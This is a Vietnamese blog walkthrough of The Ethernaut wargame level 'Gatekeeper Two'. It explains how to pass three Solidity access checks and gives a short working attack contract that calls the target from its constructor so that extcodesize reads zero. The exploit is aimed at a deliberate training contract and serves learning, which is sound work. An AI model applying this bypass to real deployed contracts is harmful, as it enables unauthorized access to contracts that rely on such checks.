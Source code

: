 ```yaml
---
layout: post
title: "The Ethernaut: 14 - Gatekeeper Two"
mathjax: true
---
```

# 14. Gatekeeper Two 　★★★★★★

**Nhiệm vụ**: vượt qua 3 cánh cổng khác và thay đổi địa chỉ của cửa vào

```js
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Phân tích & Solution

Ta sẽ phân tích cách vượt qua từng cửa một giống như bài [GatekeeperOne](http://dotrungkien.github.io/2018/06/21/the-ethernaut-13/)

### Cửa số 1

```js
modifier gateOne() {
  require(msg.sender != tx.origin);
  _;
}
```

`tx.origin` sẽ là địa chỉ nguồn nơi phát đi giao dịch, là một ai đó, `msg.sender` là địa chỉ gọi tới hàm hiện tại

Có nghĩa là, khi ta gọi trực tiếp một hàm contract thông thường thì `msg.sender` và `tx.origin` là giống nhau, còn nếu ta gọi hàm đó thông qua một contract trung gian thì `tx.origin` vẫn sẽ là ta, nhưng `msg.sender` sẽ là contract trung gian.

Vì thế ta chỉ cần dùng một contract trung gian là có thể vượt qua cửa số 1.

### Cửa số 2

```js
modifier gateTwo() {
  uint x;
  assembly { x := extcodesize(caller) }
  require(x == 0);
  _;
}
```

`extcodesize(caller)` chính là lấy ra lượng code chứa trong `caller` gọi đến contract `GatekeeperTwo` này. `caller` có thể là người (account thông thường), cũng có thể là contract.

một điều kiện quan trọng ở đây chính là `require(x == 0)`, có nghĩa là `caller` không có tí code nào ? hay caller chỉ có thể là người. Điều này chẳng phải đã phủ nhận điều kiện ở gate 1 rồi hay sao ? làm thế nào để ta có thể qua được 2 cửa cùng một lúc được ?

Đó chính là lúc ta cần đến `yellow paper` - tài liệu đặc tả kỹ thuật của ethereum, trong đó có đoạn:

> During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account while
CODESIZE should return the length of the initialization cod

có nghĩa là trong contract thì trong constructor codesize vẫn là 0, chỉ sau khi hoàn thành constructor thì codesize mới có giá trị.

Điều này gợi ý ta vượt qua gate 2 bằng cách gọi hàm enter ngay trong constructor của contract tấn công, nó vừa đảm bảo ta dùng contract trung gian, lại vừa đảm bảo `codesize == 0`. Yeah!

### Cửa số 3

```js
modifier gateThree(bytes8 _gateKey) {
  require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
  _;
}
```

điều kiện này rất là dễ, chỉ đơn thuần là một phép *XOR* mà thôi. Ta biết rằng nếu `a XOR b = c` thì `b = a XOR c`, một tính chất rất cơ bản của *XOR*. Do đó:

```js
uint64(_gateKey) = uint64(keccak256(msg.sender)) ^ (uint64(0) - 1)
```

có một điều lưu ý ở đây, do chúng ta sử dụng contract trung gian để tấn công, vì thế địa chỉ `msg.sender` ở đây chính là địa chỉ của contract trung gian, nên trong code của contract trung gian, ta phải thay thế `msg.sender` bằng `address(this)`

Cuối cùng code của contract tấn công sẽ như sau:

```js
contract Backdoor {
  function Backdoor (address _target) public {
    GatekeeperTwo(_target).enter(bytes8((uint64(uint64(keccak256(address(this)))^(uint64(0) - 1)))));
  }
}
```

đơn giản phải không. Paste lên Remix, compile với địa chỉ `_target` là địa chỉ instance của bạn.

![png]({{ site.url }}/assets/images/GatekeeperTwo.png)

Kiểm tra lại xem entrant đã đổi thành địa chỉ của mình chưa ?

```js
await contract.entrant()
"0xf32fd9e7d64a3b90ce2e5563927eff2567ebd96b"
```

Submit && All done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

## Bình luận

Đây là một bài tập theo kiểu dạng "biết thì rất dễ, không biết thì không biết đằng nào mà lần". Phần `assembly { x := extcodesize(caller) }` thực sự là một trick rất khó nhằn.

Enjoy coding!